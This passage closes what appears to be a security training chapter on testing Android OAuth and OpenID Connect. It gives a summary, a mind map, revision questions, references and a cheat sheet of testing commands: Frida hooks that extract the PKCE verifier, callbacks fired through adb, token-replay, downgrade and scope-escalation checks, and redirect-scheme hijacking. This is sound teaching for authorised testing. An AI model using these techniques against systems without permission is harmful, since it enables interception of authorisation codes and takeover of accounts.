| [Lab 04 — CTF: The Borrowed Identity](labs/lab-04-ctf-the-borrowed-identity.md) | A challenge app and mock authorisation server containing several deliberately layered flaws; recover the flag and explain which control failed at which layer | Advanced |

> **⚠️ Warning**
> Every technique in these labs must be performed only against the deliberately vulnerable
> environment supplied with the labs, or against a system you have written authorisation to test.
> Intercepting authorisation codes belonging to another person's account is unauthorised access to a
> computer system in essentially every jurisdiction. Registering a competing scheme is trivially easy
> and that is exactly why the boundary matters.

---

## 13. Summary

### Key points

- OAuth 2.0 is an **authorisation** framework, not an authentication protocol. OpenID Connect is the
  authentication layer, and it announces itself with the `openid` scope and an `id_token`.
- An Android app is a **public client**: it cannot hold a secret, because everything it holds ships
  to every user. Every other design decision in mobile OAuth follows from that single fact.
- The only acceptable grant for a mobile app is the **authorisation code grant with PKCE `S256`**.
  Implicit and ROPC are dead; client credentials is not applicable; the device grant applies only to
  input-constrained devices.
- **PKCE's security lives entirely at the server.** `code_challenge` in the request proves the client
  implements it. Only a replayed token exchange without the verifier proves the server enforces it,
  and **non-enforcement is the finding**.
- The three enforcement variants are: correct verifier (control, must succeed), verifier omitted
  (must fail), verifier wrong (must fail). Each needs a **fresh code**. Add code reuse and a `plain`
  downgrade to make five.
- Using a **`WebView` for the authorisation flow is a finding in itself**, because it places the
  user's identity-provider credential inside the client's trust boundary and removes the address bar.
  Custom Tabs run in the browser's process under the browser's UID, which is what makes them correct.
- **Android imposes no uniqueness on custom URI schemes.** Any app may claim `exampleapp://`. A
  verified **App Link**, backed by `assetlinks.json` over HTTPS, is the only redirect the platform
  enforces as exclusive.
- **`state`** is an unguessable per-request value echoed in the redirect; it stops CSRF, in which the
  victim's app ends up holding the attacker's tokens. **`nonce`** is echoed *inside the signed
  `id_token`*; it stops ID token replay and cannot be forged.
- **`id_token` validation is a fixed algorithm** — signature against a JWKS key chosen from your own
  `alg` allow-list, then `iss`, `aud`, `exp`, `iat`/`nbf`, `nonce` — and the classic production flaw
  is a backend that verifies the signature but never checks **`aud`**, letting a token minted for the
  attacker's own app take over the victim's account.
- Key the user on **`sub`**, never `email`.
- One request to `.well-known/openid-configuration` reveals ROPC, implicit, `plain` and `none`
  support server-wide. It is the cheapest evidence you will collect.
- Client-side controls are hints. **Name the enforcement point for every control**, and write findings
  about the enforcement point.

### Mind map

The full chapter mind map is in [`mindmap.md`](mindmap.md). Condensed:

```mermaid
mindmap
  root((Android OAuth))
    Roles
      Resource owner the user
      Client the app public
      Authorization server
      Resource server API
    Grants
      Code plus PKCE correct
      Implicit dead
      ROPC dead and dangerous
      Client credentials not for apps
      Device grant constrained input
      Refresh rotation and reuse detection
    PKCE
      verifier 43 to 128 chars SecureRandom
      challenge S256 of ASCII verifier
      plain is a downgrade
      SERVER ENFORCEMENT is the finding
      Five test variants A to E
    User agent
      Custom Tab browser process
      WebView is itself a finding
      ACTION_VIEW acceptable
      No address bar equals phishing
    Redirect
      Custom scheme claimable by anyone
      App Link verified assetlinks json
      Loopback for desktop not mobile
      IntentFilter matchData no ownership
    Front channel controls
      state stops CSRF in the URL
      nonce stops replay inside signature
      PAR removes the front channel
    OIDC
      id_token identity for the client
      access_token authority for the API
      Validate sig iss aud exp nonce
      aud check is the classic miss
      Use sub not email
    Testing
      Proxy app and browser separately
      Frida hook AppAuth TokenRequest
      Replay token exchange variants
      Competing scheme app
      Discovery document red flags
    Hardening
      PAR RFC 9126
      DPoP RFC 9449 Keystore bound
      Short tokens rotate refresh
      Server side revocation
      Least privilege scopes
```

### Cheat sheet

The full printable version is [`cheatsheet.md`](cheatsheet.md). Condensed:

| Need | Command or check |
|---|---|
| Grant type at a glance | `response_type=code` + `code_challenge` = correct; `response_type=token` = implicit; `grant_type=password` = ROPC |
| Server posture in one request | `curl -s https://HOST/.well-known/openid-configuration \| jq` |
| Who claims the redirect scheme | `adb shell cmd package query-activities -a android.intent.action.VIEW -d "scheme://cb"` |
| Is the App Link actually verified | `adb shell pm get-app-links <pkg>` |
| Fire a callback by hand | `adb shell am start -a android.intent.action.VIEW -d "scheme://cb?code=X&state=Y"` |
| Trace the whole flow | `frida -U -f <pkg> -l scripts/oauth-flow-tracer.js` |
| Get the `code_verifier` directly | Hook `net.openid.appauth.TokenRequest.getRequestParameters` |
| Detect a `WebView` flow | `frida -U -f <pkg> -l scripts/detect-webview-oauth.js` |
| **PKCE enforcement (the test)** | `POST /token` with a **fresh** code and **no** `code_verifier` — must be `400 invalid_grant` |
| PKCE downgrade | New `/authorize` with `code_challenge_method=plain`; if honoured, PKCE is defeatable |
| Code single-use | Redeem the same code twice with the correct verifier; the second must fail |
| Scope escalation | `grant_type=refresh_token` with extra scopes appended |
| Logout actually revokes | Use the access token and the refresh token *after* logging out in the UI |
| Static triage of an APK | `bash scripts/oauth-static-triage.sh app.apk` |
| Decode a captured request | `python3 scripts/oauth-param-decoder.py --url "<authorize URL>"` |

### Quick revision

Answer these from memory. If any takes more than a sentence or two, re-read the section named.

- Why can an Android app not hold a client secret, and name three consequences. (§3.1, §10)
- Which grant types are acceptable for a mobile app, and why is each of the others excluded? (§3.2–§3.8)
- What exactly does PKCE protect against, and what does it *not* protect against? (§3.3)
- What does `code_challenge` in a captured request prove, and what does it not prove? (§7.5)
- Give the three token-exchange variants that test PKCE enforcement, and the expected response to each. (§7.5)
- Why does each variant need a fresh authorisation code? (§7.5)
- Why is `code_challenge_method=plain` nearly useless, and what is the *second* reason it matters? (§3.3)
- Why is running the flow in a `WebView` a finding even if the app does nothing malicious? (§3.9)
- Name the property of a Custom Tab that makes it correct, and the platform mechanism that enforces it. (§3.9)
- Which AOSP method decides whether an app's `intent-filter` matches a redirect URI, and what does it *not* check? (§4.3)
- What is the difference between `android:autoVerify="true"` and a verified App Link? (§3.10.2)
- What does `state` protect against, and how does the attack work step by step? (§3.11)
- Why is `nonce` forgery-resistant in a way `state` is not? (§3.12)
- List every step of `id_token` validation in order. (§3.12)
- Describe the audience-confusion attack against a "Sign in with X" backend. (§3.12, §5.1)
- Why key accounts on `sub` rather than `email`? (§3.12)
- Which four fields of the discovery document would you check first, and what does each reveal? (§7.8)
- Why might you need two different interception setups for one login? (§7.1)
- Name the enforcement point for: PKCE, scope, redirect exclusivity, logout, biometric re-auth. (§10)

---

## 14. References

### RFCs and specifications

- **RFC 6749** — The OAuth 2.0 Authorization Framework. The base specification: roles, grant types,
  endpoints, error codes. https://www.rfc-editor.org/rfc/rfc6749
- **RFC 6750** — The OAuth 2.0 Authorization Framework: Bearer Token Usage. How a bearer token is
  presented, and the `WWW-Authenticate` error semantics. https://www.rfc-editor.org/rfc/rfc6750
- **RFC 6819** — OAuth 2.0 Threat Model and Security Considerations. The original systematic threat
  analysis; still the best single source on *why* each control exists.
  https://www.rfc-editor.org/rfc/rfc6819
- **RFC 7636** — Proof Key for Code Exchange (PKCE). §4.1 specifies the `code_verifier` character set
  and length; §4.2 specifies `S256`. https://www.rfc-editor.org/rfc/rfc7636
- **RFC 7519** — JSON Web Token (JWT). The container format for `id_token`s.
  https://www.rfc-editor.org/rfc/rfc7519
- **RFC 7591 / RFC 7592** — Dynamic Client Registration and its management protocol. Relevant when an
  app registers itself at runtime. https://www.rfc-editor.org/rfc/rfc7591
- **RFC 7662** — Token Introspection. How a resource server asks the AS what a token means.
  https://www.rfc-editor.org/rfc/rfc7662
- **RFC 7009** — Token Revocation. The endpoint a correct logout must call.
  https://www.rfc-editor.org/rfc/rfc7009
- **RFC 8252** — OAuth 2.0 for Native Apps (BCP 212). **The single most important document for this
  chapter.** Mandates PKCE, mandates an external user agent, and §8.12 is the normative basis for
  treating a `WebView` flow as a finding. https://www.rfc-editor.org/rfc/rfc8252
- **RFC 8628** — OAuth 2.0 Device Authorization Grant. The TV and console flow.
  https://www.rfc-editor.org/rfc/rfc8628
- **RFC 8705** — OAuth 2.0 Mutual-TLS Client Authentication and Certificate-Bound Access Tokens. The
  other sender-constraining mechanism. https://www.rfc-editor.org/rfc/rfc8705
- **RFC 9126** — OAuth 2.0 Pushed Authorization Requests (PAR). Moves request parameters off the
  front channel. https://www.rfc-editor.org/rfc/rfc9126
- **RFC 9207** — OAuth 2.0 Authorization Server Issuer Identification. The mitigation for mix-up
  attacks. https://www.rfc-editor.org/rfc/rfc9207
- **RFC 9449** — OAuth 2.0 Demonstrating Proof of Possession (DPoP). Sender-constrained tokens at the
  application layer; pairs with the Android Keystore. https://www.rfc-editor.org/rfc/rfc9449
- **RFC 9700** — Best Current Practice for OAuth 2.0 Security. The consolidated modern guidance that
  supersedes scattered advice. https://www.rfc-editor.org/rfc/rfc9700
- **OpenID Connect Core 1.0** — §3.1.3.7 is the normative `id_token` validation algorithm.
  https://openid.net/specs/openid-connect-core-1_0.html
- **OpenID Connect Discovery 1.0** — the `.well-known/openid-configuration` document.
  https://openid.net/specs/openid-connect-discovery-1_0.html
- **OAuth 2.1 draft** — the consolidation that makes PKCE mandatory and removes implicit and ROPC.
  https://oauth.net/2.1/
- **FAPI 2.0 Security Profile** — the financial-grade profile; useful as a checklist for a hardened
  deployment. https://openid.net/wg/fapi/

### Android platform documentation

- Android App Links verification — https://developer.android.com/training/app-links/verify-android-applinks
- Digital Asset Links (`assetlinks.json`) — https://developers.google.com/digital-asset-links/v1/getting-started
- Chrome Custom Tabs — https://developer.chrome.com/docs/android/custom-tabs/
- AndroidX Browser (`CustomTabsIntent`) — https://developer.android.com/reference/androidx/browser/customtabs/CustomTabsIntent
- Intents and intent filters — https://developer.android.com/guide/components/intents-filters
- Network security configuration — https://developer.android.com/privacy-and-security/security-config
- Android Keystore system — https://developer.android.com/privacy-and-security/keystore
- `AccountManager` and Android's account framework — https://developer.android.com/reference/android/accounts/AccountManager

### AOSP source

- `frameworks/base/core/java/android/content/IntentFilter.java` — `matchData`, the method that
  decides whether an app's filter matches a redirect URI, and which has no concept of scheme ownership
- `frameworks/base/services/core/java/com/android/server/pm/` — package manager intent resolution and
  App Link verification state
- `frameworks/base/core/java/android/content/pm/verify/domain/` — the domain verification APIs behind
  `pm get-app-links`
- `packages/modules/` — the Mainline components involved in domain verification
- Android Code Search — https://cs.android.com/

### Libraries and reference implementations

- **AppAuth-Android** — the OpenID Foundation's certified client library; the reference
  implementation of RFC 8252. Refuses to run the flow in a `WebView`.
  https://github.com/openid/AppAuth-Android
- AppAuth-Android sample app — a complete, correct flow to compare a target against.
  https://github.com/openid/AppAuth-Android/tree/master/app
- Google Identity Services for Android — https://developers.google.com/identity/android
- Nimbus JOSE + JWT — a correct JWT validator to check a backend's behaviour against.
  https://connect2id.com/products/nimbus-jose-jwt

### OWASP

- **MASVS** — https://mas.owasp.org/MASVS/ — particularly MASVS-AUTH (authentication and
  authorisation), MASVS-NETWORK (secure communication), MASVS-STORAGE (token storage) and
  MASVS-PLATFORM (IPC and deep links)
- **MASTG** — https://mas.owasp.org/MASTG/ — the Android authentication, deep-link and network
  interception test cases
- OWASP Mobile Top 10 — M3 Insecure Authentication/Authorization, M4 Insufficient Input/Output
  Validation, M9 Insecure Data Storage. https://owasp.org/www-project-mobile-top-10/
- OWASP Cheat Sheet Series — OAuth 2.0 and JWT cheat sheets.
  https://cheatsheetseries.owasp.org/

### Research and further reading

- OAuth 2.0 Security Best Current Practice, working group materials — https://oauth.net/2/
- The `oauth.net` reference site, maintained by Aaron Parecki — https://oauth.net/
- Google Project Zero, for mobile IPC and deep-link research —
  https://googleprojectzero.blogspot.com/
- Android Security Bulletins, for platform-level intent and domain-verification fixes —
  https://source.android.com/docs/security/bulletin

### Related chapters

- [26-Intent](../26-Intent/README.md) — intent resolution, implicit intents and the mechanism that
  makes scheme hijacking possible
- [26-Intent](../26-Intent/README.md) — App Links, `assetlinks.json` and verification state
- [35-SSL](../35-SSL/README.md) — intercepting the back-channel token exchange
- [43-WebView](../43-WebView/README.md) — why the embedded user agent is dangerous, in depth
- [44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md) — trusting your proxy CA
- [46-Tokens](../46-Tokens/README.md) — what happens to the tokens after the flow: JWT internals,
  algorithm confusion, and storage
- [47-Authentication](../47-Authentication/README.md) — sessions, logout, step-up and biometrics
- [49-KeyStore](../49-KeyStore/README.md) — where a DPoP or attestation key must live
- [50-HardwareBackedSecurity](../50-HardwareBackedSecurity/README.md) — StrongBox and key attestation
- [53-Frida](../53-Frida/README.md) — the instrumentation used throughout section 7
- [21-App-Sandbox](../21-App-Sandbox/README.md) — the UID boundary that makes a Custom Tab safe


